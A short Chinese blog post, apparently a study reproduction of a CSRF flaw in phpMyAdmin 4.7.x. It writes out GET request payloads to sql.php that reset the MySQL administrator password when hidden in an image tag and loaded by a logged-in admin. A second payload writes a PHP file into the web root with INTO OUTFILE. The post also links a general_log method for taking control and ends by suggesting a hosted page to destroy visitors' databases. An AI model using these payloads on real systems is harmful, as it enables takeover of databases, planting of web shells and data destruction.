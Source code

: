 ```yaml
---
layout: post
title: phpMyAdmin 4.7.x CSRF
categories: [渗透]
tags: [渗透]
fullview: false
comments: true
---
```


复现学习  
  
场景:管理员登陆phpmyadmin之后，我试验了一下，发现只要是登陆session没有失效应该是都可以的，  

利用，phpmyadmin可以通过get方式操作数据库，此版本存在csrf漏洞，通过构造一个链接(不是傻子基本都发现),所以是藏到一个地方让他自己偷偷的加载。    


### ① ###

修改管理员密码，因为可以通过get方式执行操作，所以构造语句:  



>     http://url/pma/sql.php?db=mysql&table=user&sql_query=SET%20password%20=%20PASSWORD(%27pass%27); 
>     就是把phpmyadmin首页进去的index.php换成sql.php?~~~~~~
>     藏到html里，通过image标签让浏览器自己预先加载就可以达到了偷偷改密码的目的。
>     <img src="payload">  

### ② ###
写马。  

和①原理上是一样的，都是get构造语句，执行不同的语句直接在后边构造就行。  

>     http://url/pma/sql.php?db=mysql&table=user&sql_query=select '<?php phpinfo();?>' into outfile '/var/www/html/test.php';


即使是管理员，有的时候也不一定能写，主要原因是参数
>     secure_file_priv
  

限制了读写操作，这个如果被限制的话没有什么很好的解决办法，因为要改配置文件。
### ③ ###
结合[https://www.cnblogs.com/zaqzzz/p/9355004.html](https://www.cnblogs.com/zaqzzz/p/9355004.html "phpmyadmin漏洞利用general_log和general_log_file拿权限")   

为所欲为，构造语句的时候加上分号就好了。

  


### 总结: ###

感觉这个使用的不会太多，首先这个完整的路径只要在你扫描到phpmyadmin的位置才能利用，还有尴尬的是你怎么知道谁是管理员以及让他打开html。  

不过挂在自己搭建的服务器上，只要他们访问就把数据库破坏这也是个方法。。。